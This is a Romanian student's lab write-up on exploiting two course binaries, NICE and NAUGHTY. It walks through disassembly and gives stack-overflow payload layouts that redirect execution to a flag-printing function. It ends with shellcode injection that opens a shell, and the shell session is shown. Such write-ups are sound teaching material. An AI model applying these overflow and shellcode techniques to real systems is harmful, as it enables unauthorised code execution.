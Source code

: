 		Fisierul NICE

	1. Analiza binarului

Functia vulnerabila se afla la adresa 0x08049329. In aceasta functie, se aloca
spatiu pentru 0x2f9 bytes. Apoi este salvata pe stiva, mai exact la pozitia
ebp-0x1de, adresa unei functii (0x80492c8). Urmeaza apoi o citere de la tasta-
tura. Daca se citesc maxim 0x2f9-0x1de=283 bytes, nu va fi nicio problema. In
schimb daca se citesc mai multi, se va suprascrie adresa functiei salvata pe
stiva si programul va functiona diferit, intruact ulterior, functia de la acea
adresa va fi apelata. Asa cum se poate observa din codul de mai jos, se citesc
0x2f9 bytes, deci adresa acelei functii va putea fi suprascrisa.


 8049329:       55                      push   ebp
 804932a:       89 e5                   mov    ebp,esp
 804932c:       81 ec f9 02 00 00       sub    esp,0x2f9
 8049332:       c7 85 22 fe ff ff c8    mov    DWORD PTR [ebp-0x1de],0x80492c8
 8049339:       92 04 08 
 804933c:       89 e2                   mov    edx,esp
 804933e:       68 f9 02 00 00          push   0x2f9
 8049343:       52                      push   edx
 8049344:       6a 00                   push   0x0
 8049346:       e8 e5 fc ff ff          call   8049030 <read@plt>
 804934b:       8b 85 22 fe ff ff       mov    eax,DWORD PTR [ebp-0x1de]
 8049351:       ff d0                   call   eax
 8049353:       c9                      leave  
 8049354:       c3                      ret    


	2. Spargerea binarului

Este suficient sa suprascriu adresa acelei functii cu o alta adresa care va
genera mesajul dorit. Aceasta adresa este 0x08049291 deoarece:

- la eticheta print_flag se afla 7 functii (se observa 7 cadre de stiva);
- main-ul contine 4 functii care doar citesc un numar de bytes si inca una
vulnerabila (cea de a patra);
- a doua functie din print_flag este cea la care "se sare", daca nu este
exploatata vulnerabilitatea, programul afisand "All done...";
- ramane astfel o singura functie, avand adresa 8049291, in corpul careia se
poate observa un apel al functiei "puts", care probabil printeaza mesajul
NICE_FLAG{...}.


 8049291:       55                      push   ebp
 8049292:       89 e5                   mov    ebp,esp
 8049294:       6a 04                   push   0x4
 8049296:       68 66 c0 04 08          push   0x804c066
 804929b:       6a 00                   push   0x0
 804929d:       6a 00                   push   0x0
 804929f:       6a 00                   push   0x0
 80492a1:       6a 00                   push   0x0
 80492a3:       e8 c8 fd ff ff          call   8049070 <ptrace@plt>
 80492a8:       83 c4 10                add    esp,0x10
 80492ab:       83 f8 ff                cmp    eax,0xffffffff
 80492ae:       75 07                   jne    80492b7 <print_flag+0x26>
 80492b0:       6a 01                   push   0x1
 80492b2:       e8 99 fd ff ff          call   8049050 <exit@plt>
 80492b7:       e8 99 ff ff ff          call   8049255 <__x86.get_pc_thunk.bx+0x185>
 80492bc:       68 28 c0 04 08          push   0x804c028
 80492c1:       e8 7a fd ff ff          call   8049040 <puts@plt>
 80492c6:       c9                      leave  
 80492c7:       c3                      ret    


Astfel, pentru a sparge binarul, am citit de la tastatura:

- 98 bytes pentru prima functie, intrucat functia executa exact aceasta
operatie;
- 297 bytes pentru a doua, din acelasi motiv;
- 229 bytes pentru a treia, din acelasi motiv;
- 283 bytes pentru a patra la care am adaugat noua adresa, 0x08049291,
scrisa in little endian.



		Fisierul NAUGHTY

	3. Spargerea binarului v2

Vulnerabilitatea in acest binar este o functie care citeste pe stiva mai mult
decat se alocase inainte, putand astfel modifica adresa de retur a functiei
apelante. Concret, a patra functie apelata din main, ce are adresa  0x08049362,
aloca 0x1f2 bytes si citeste 0x34d bytes.


 8049362:       55                      push   ebp
 8049363:       89 e5                   mov    ebp,esp
 8049365:       81 ec f2 01 00 00       sub    esp,0x1f2
 804936b:       89 e2                   mov    edx,esp
 804936d:       68 4b 03 00 00          push   0x34b
 8049372:       52                      push   edx
 8049373:       6a 00                   push   0x0
 8049375:       e8 b6 fc ff ff          call   8049030 <read@plt>
 804937a:       81 bd 75 ff ff ff 88    cmp    DWORD PTR [ebp-0x8b],0xbb4488
 8049381:       44 bb 00 
 8049384:       74 07                   je     804938d <print_flag+0xfc>
 8049386:       6a 01                   push   0x1
 8049388:       e8 c3 fc ff ff          call   8049050 <exit@plt>
 804938d:       c9                      leave  
 804938e:       c3                      ret


Pentru a putea sparge binarul, trebuie ca primele 3 functii apelate din main
sa nu treaca de if-ul corespunzator verificarii unui element citit cu o valoare
data in program. Astfel, prima functie din main, cea de la adresa 0x080492de:

- aloca 0x10d bytes si citeste de la ebp-0x10d in sus, 0xcf bytes;
- compara numarul de la ebp-0xb9 cu valoarea 0x3113cc71, iar daca sunt egale se
continua executia programului.


 80492de:       55                      push   ebp
 80492df:       89 e5                   mov    ebp,esp
 80492e1:       81 ec 0d 01 00 00       sub    esp,0x10d
 80492e7:       89 e2                   mov    edx,esp
 80492e9:       68 cf 00 00 00          push   0xcf
 80492ee:       52                      push   edx
 80492ef:       6a 00                   push   0x0
 80492f1:       e8 3a fd ff ff          call   8049030 <read@plt>
 80492f6:       81 bd 47 ff ff ff 71    cmp    DWORD PTR [ebp-0xb9],0x3113cc71
 80492fd:       cc 13 31 
 8049300:       74 07                   je     8049309 <print_flag+0x78>
 8049302:       6a 01                   push   0x1
 8049304:       e8 47 fd ff ff          call   8049050 <exit@plt>
 8049309:       c9                      leave  
 804930a:       c3                      ret


Deci trebuie avut grija cand citesc de la tastatura, sa introduc 0x10d-0xb9=84
bytes random, apoi numarul 0x3113cc71, in little endian si apoi inca 0xcf-84-4=119
bytes random pentru a continua executia programului.

Pentru urmatoarele doua functii se procedeaza identic.

Pentru a patra functie, unde se citeste mai mult decat se aloca, se citeste prac-
tic intreg numarul de bytes alocat si anume 0x1f2 bytes, avand grija ca mai sus
sa pun numarul corect pe pozitia indicata, iar apoi se citesc inca 4 bytes random
pentru a suprascrie vechiul ebp salvat pe stiva. In final se citeste de la tasta-
tura noua adresa a functiei la care "va sari" executia programului. Practic se
pune adresa 0x08049291, scrisa desigur in little endian, explicatia fiind simi-
lara cu cea din binarul NICE.

In acest fel, functia la care se trece va afisa mesajul "NAUGHTY_FLAG{...}".



	4. Shellcode

Folosind din nou binarul NAUGHTY, exploatam vulnerabilitatea prezentata anterior
din a patra functie. Ideea este ca in loc sa citim o gramada de caractere
garbage, la un moment dat sa citim codul unei functii care deschide un shell.

Asadar, am dat ca input pentru functia respectiva:
- 100 caractere garbage;
- un string in hexa de 55 bytes care reprezinta codul unei functii ce deschide
un shell (luat de pe net: http://shell-storm.org/shellcode/files/shellcode-811.php)
- inca 204 caractere garbage;
- numarul "\x88\x44\xbb\x00", pentru a trece de if-ul care compara valoarea de
la pozitia la care am ajuns cu acest numar;
- inca 139 de caractere garbage astfel incat sa suprasciu tot pana la vechiul
ebp salvat, urmand sa suprascriu si adresa de return;
- "\x7a\xd0\xff\xff", noua adresa de return, care reprezinta de fapt adresa la
care este stocat shellcode-ul citit anterior de la tastatura.

Aceasta noua adresa de return se gaseste cu ajutorul gdb-ului, astfel ca aflu
la ce adresa pointeaza ebp-ul si adun 100, pentru ca am, inainte de citirea
shellcode-ului, am citit 100 bytes garbage. Astfel, obtin adresa de pe stiva la
care este salvat shellcode-ul.


student@IOCLA:~/tema4$ ./naughty < naughty_shellcode 
$ ls
README	naughty  naughty_payload  naughty_shellcode  nice  nice_payload  tema4.zip
$ pwd
/home/student/tema4
$ exit
student@IOCLA:~/tema4$ 


